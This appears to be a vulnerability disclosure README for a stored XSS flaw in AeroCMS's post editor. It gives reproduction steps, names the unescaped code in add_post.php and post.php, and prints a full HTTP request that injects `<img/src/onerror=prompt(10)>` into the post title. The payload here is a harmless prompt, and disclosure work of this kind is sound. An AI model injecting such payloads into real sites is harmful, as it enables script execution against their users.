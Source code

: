 # AeroCMS-Add_Posts-Stored_XSS-Poc
## Step to Reproduct
* Login to admin panel -> `Posts` -> `Add Posts` -> `Post Title` -> inject payload `<img/src/onerror=prompt(10)>` -> The XSS will trigger when clicked `Edit Post` button
### Exploit
![image](https://user-images.githubusercontent.com/79050415/156887124-fb539ece-2ad1-4ebd-9ce9-6fcfd688b36e.png)
![image](https://user-images.githubusercontent.com/79050415/156879926-c7009ae0-54b5-4b5c-a49f-6c693ce8f2e5.png)
## Vulnerable Code
* `add_post.php`
![image](https://user-images.githubusercontent.com/79050415/156879687-273b903a-195c-4313-be7a-b4053ecae897.png)
When inserting into the database, the input is not filtered out of html characters
* `post.php`
![image](https://user-images.githubusercontent.com/79050415/156879786-ed53b64e-cf92-4160-aacd-32440b795d32.png)
Even when displaying, the entity cannot be properly encoded
-------------------------------------------------------------
# POC
```c POST http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=26 HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------85448121341942511952219062291
Content-Length: 1101
Origin: http://localhost:8080
Connection: keep-alive
Referer: http://localhost:8080/AeroCMS/admin/posts.php?source=edit_post&p_id=26
Cookie: Phpstorm-6b6ba5ee=79a50460-3b02-4cde-a5a4-ff6883c16a7b; PHPSESSID=ndh6ks953tmha1ps8cfp4bplf2
Upgrade-Insecure-Requests: 1

-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_title"

<img/src/onerror=prompt(10)>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_category_id"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_user"

admin
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_status"

published
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_tags"

1
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="post_content"

<p>111</p>
-----------------------------85448121341942511952219062291
Content-Disposition: form-data; name="update_post"

Edit Post
-----------------------------85448121341942511952219062291--
```
POC VIDEO
https://drive.google.com/file/d/1kMGPBLKgefvKZj34QxDlPTxXdcT0kRR_/view?usp=sharing

